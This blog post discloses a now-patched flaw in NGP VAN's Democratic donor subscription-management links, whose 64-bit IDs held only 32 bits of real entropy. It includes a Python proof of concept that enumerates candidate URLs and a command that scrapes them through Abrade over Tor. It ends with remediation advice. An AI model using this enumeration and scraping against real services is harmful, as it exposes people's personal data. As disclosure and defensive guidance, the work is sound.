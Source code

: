 ```yaml
---
layout: post
title: Vulnerability Patched in Democratic Donor Database
image: /images/ngpvan.svg
date: 2017-10-16 08:00
tag: Weak URL Generation for Email Subscription Management Exposed Democratic Donors Emails to Attack
categories: [responsible disclosure, abrade, hacking]
---
```

[1]: https://www.ngpvan.com/
[2]: https://www.ngpvan.com/about
[3]: https://jlospinoso.github.io/cpp/developing/software/2017/09/15/abrade-web-scraper.html
[4]: https://www.incapsula.com/website-security/access-control.html
[5]: https://github.com/ziplokk1/incapsula-cracker-py3
[6]: https://en.wikipedia.org/wiki/Entropy_(information_theory)
[7]: https://en.wikipedia.org/wiki/Thunk
[8]: https://en.wikipedia.org/wiki/Universally_unique_identifier
[9]: https://www.salon.com/2017/09/13/theres-overwhelming-evidence-that-russia-hacked-democrats-but-the-government-hasnt-shared-it/
[10]: https://www.eff.org/issues/coders

A weak link-generation algorithm exposed Democratic Party donor information in the [NGP VAN][1] service to attack last month. The vulnerability would allow an attacker to unsubscribe large volumes of donors from Democratic candidates' fundraising emails, conduct phishing campaigns, or resell the data.

I disclosed the vulnerability to [NGP VAN][1]'s engineering team, which patched the vulnerability within a week.

In this blog post, I'll discuss the problem, give a proof of concept, and provide some recommendations to avoid similar problems in unauthenticated subscription-management portals.

# NGP VAN Emails

[NGP VAN][1] offers Democratic donor campaign information to Democratic and progressive campaigns and organizations. According [to their site][2], they service nearly every major Democratic campaign in America (to include President Obama).

Potential donors receive periodic emails from participating political candidates. At the bottom of each of these emails, the recipient has the option to update subscription preferences using a link with some large numbers in it, e.g.:

```
https://act.myngp.com/el/-9876543219876543219/1234567891234567891
```

This link is a [thunk][7] into the subscription management portal, e.g.:

```
https://act.myngp.com/Email/ManageEmailPreferences/1234567891234567891
```

Here's a redacted example:

![Email List Preferences](https://raw.githubusercontent.com/JLospinoso/jlospinoso.github.io/master/images/landing.png)

# The Vulnerability

The numerical portion of the subscription management URL is the *signed representation* of an 8-byte unsigned integer. This value encodes sensitive information an attacker could use to scrape NGP VAN's database.

The upper 4 bytes are a user ID while the lower 4 bytes is a partition ID, the "suffix". Once you find a valid suffix, you can scrape through the ~4.3 billion candidate user IDs. Valid suffixes are trivial to extract from valid NGP VAN emails.

Here's a proof of concept Python program that generates candidate URLs:

```
import struct
import argparse

def member_ids(start, suffix):
    while start < 0xFFFFFFFF:
        bits = struct.pack("<II", suffix, start)
        value = struct.unpack("q", bits)
        yield value[0]
        start += 1

parser = argparse.ArgumentParser()
parser.add_argument("--start", type=int, help="ID to start from.", default=0)
parser.add_argument("--suffix", type=int, help="secret suffix")
args = parser.parse_args()

start = args.start
for id in member_ids(args.start, args.suffix):
    print "/Email/ManageEmailPreferences/%d" % id
```

An attacker could pluck an appropriate suffix out of a valid campaign email, then use the program above to generate candidate links. Say the suffix is 0x11223344 (decimal 287454020):

```
> python gen.py --suffix=287454020
/Email/ManageEmailPreferences/287454020
/Email/ManageEmailPreferences/4582421316
/Email/ManageEmailPreferences/8877388612
/Email/ManageEmailPreferences/13172355908
/Email/ManageEmailPreferences/17467323204
/Email/ManageEmailPreferences/21762290500
/Email/ManageEmailPreferences/26057257796
/Email/ManageEmailPreferences/30352225092
/Email/ManageEmailPreferences/34647192388
/Email/ManageEmailPreferences/38942159684
...
```

Piping these routes into the [Abrade][3] web API scraper, an attacker could check hundreds of links per second via Tor:

```
python python gen.py --suffix=287454020 | abrade act.myngp.com --tls --stdin --tor --contents --screen "We're sorry"
```

NGP VAN uses [Incapsula][4], which adds some complexity to performing a scrape. This is a [cat and mouse game][5].

# Guidelines for Subscription Management

This attack no longer works thanks to a patch, but this disclosure is a cautionary tale to others implementing unauthenticated subscription management services.

When generating links for unauthenticated users, it's critical that you introduce very high [entropy][6] into the links. If in doubt, use a [UUID][8] and save a mapping from UUID to user accounts.

Obfuscation is not a good policy. The NGP VAN links appeared to have 64 bits of entropy (18,446,744,073,709,551,616 URLs--too large to scrape), but they actually contained 32 bits of entropy because of the suffix. That's certainly doable.

Using an anti-bot service will help, but a determined adversary can defeat these services. It's simply too hard a problem--the service has to parse legitimate traffic from attacker traffic, and they'll always err on the side of permitting.

Finally, don't expose the user's actual email address in the management page. It's just not necessary. Have the user sign up for an account and authenticate if PII is involved. (Note: NGP VAN no longer exposes full email addresses after this weekend's patch.)

# Thanks

Thanks to NGP VAN for being extremely responsive. They served as a model for how companies should react to responsible vulnerability disclosure.

Special thanks to the Electronic Frontier Foundation's [Coders' Rights Project][10].
